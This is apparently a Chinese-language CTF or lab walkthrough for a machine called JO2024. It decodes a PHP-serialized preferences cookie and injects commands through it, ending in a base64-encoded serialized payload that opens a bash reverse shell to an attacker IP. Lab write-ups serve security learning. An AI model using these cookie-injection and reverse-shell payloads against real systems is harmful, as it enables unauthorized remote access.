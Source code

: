 ### 敏感目录

```text
http://192.168.10.101/preferences.php
```

![image-20240821151607374](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019477.png)

看一下cookie：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019478.png" alt="image-20240821151655101" style="zoom:50%;" />

尝试解密一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019479.png" alt="image-20240821152051272" style="zoom:50%;" />

```bash
TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjI6ImZyIjtzOjE1OiJiYWNrZ3JvdW5kQ29sb3IiO3M6NDoiI2RkZCI7fQ==
O:15:"UserPreferences":2:{s:8:"language";s:2:"fr";s:15:"backgroundColor";s:4:"#ddd";}
```

尝试一下不同的`cookie`位置试试。

### cookie 命令执行

```bash
O:15:"UserPreferences":2:{s:8:"language";s:2:"fr";s:15:"backgroundColor";s:19:"<?php phpinfo(); ?>";}
# ┌──(kali💀kali)-[~/temp/JO2024]
# └─$ echo -n "<?php phpinfo(); ?>" | wc -c
# 19
TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjI6ImZyIjtzOjE1OiJiYWNrZ3JvdW5kQ29sb3IiO3M6MTk6Ijw/cGhwIHBocGluZm8oKTsgPz4iO30=
```

但是不行，尝试别的办法，尝试序列化注入？

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019480.png" alt="image-20240821154029638" style="zoom:50%;" />

似乎也并未执行，重新试了一下，似乎`=`不转码为`%3D`也可以正常识别。。。。。转移命令执行的位置：

```bash
O:15:"UserPreferences":2:{s:8:"language";s:6:"whoami";s:15:"backgroundColor";s:4:"#ddd";}
# TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjEwOiJmcmB3aG9hbWlgIjtzOjE1OiJiYWNrZ3JvdW5kQ29sb3IiO3M6NDoiI2RkZCI7fQ==
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202408212019481.png" alt="image-20240821171515831" style="zoom:50%;" />

可以执行系统命令，尝试进行反弹shell！

```bash
# ┌──(kali💀kali)-[~/temp/JO2024]
# └─$ echo -n "bash -c 'exec bash -i &>/dev/tcp/192.168.10.105/1234 <&1'" | wc -c
# 57
O:15:"UserPreferences":2:{s:8:"language";s:57:"bash -c 'exec bash -i &>/dev/tcp/192.168.10.105/1234 <&1'";s:15:"backgroundColor";s:4:"#ddd";}
# TzoxNToiVXNlclByZWZlcmVuY2VzIjoyOntzOjg6Imxhbmd1YWdlIjtzOjU3OiJiYXNoIC1jICdleGVjIGJhc2ggLWkgJj4vZGV2L3RjcC8xOTIuMTY4LjEwLjEwNS8xMjM0IDwmMSciO3M6MTU6ImJhY2tncm91bmRDb2xvciI7czo0OiIjZGRkIjt9
```

